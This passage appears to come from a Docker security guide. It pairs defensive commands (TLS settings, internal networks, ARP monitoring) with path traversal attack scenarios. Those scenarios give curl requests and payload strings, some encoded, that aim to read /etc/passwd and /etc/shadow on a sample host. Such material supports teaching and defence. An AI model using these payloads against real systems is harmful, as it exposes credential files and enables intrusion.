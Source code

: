 #### **Defense & Patching**
```bash
# Use encrypted communication
docker run -d --name secure-app \
  -e SSL_CERT=/etc/ssl/certs/cert.pem \
  -e SSL_KEY=/etc/ssl/private/key.pem \
  myapp:latest

# Network segmentation
docker network create --internal secure-backend
docker run -d --name secure-app \
  --network secure-backend \
  myapp:latest

# ARP monitoring
arpwatch -i eth0
```

## 💾 File System Attack Scenarios

### **1. Path Traversal Attacks**

#### **Attack Vector: Directory Traversal**
```bash
# Vulnerable application
docker run -d --name vulnerable-app \
  -v /app/uploads:/app/uploads \
  myapp:latest

# Attacker uploads malicious file
curl -X POST -F "file=@../../../etc/passwd" \
  http://192.168.1.100:8080/upload

# Access sensitive files
curl http://192.168.1.100:8080/download?file=../../../etc/shadow
```

#### **Exploitation Techniques**
```bash
# Path traversal payloads
../../../etc/passwd
..\..\..\windows\system32\drivers\etc\hosts
....//....//....//etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd

# Directory listing
curl http://192.168.1.100:8080/list?dir=../../../

# File inclusion
curl http://192.168.1.100:8080/include?file=../../../etc/passwd
```
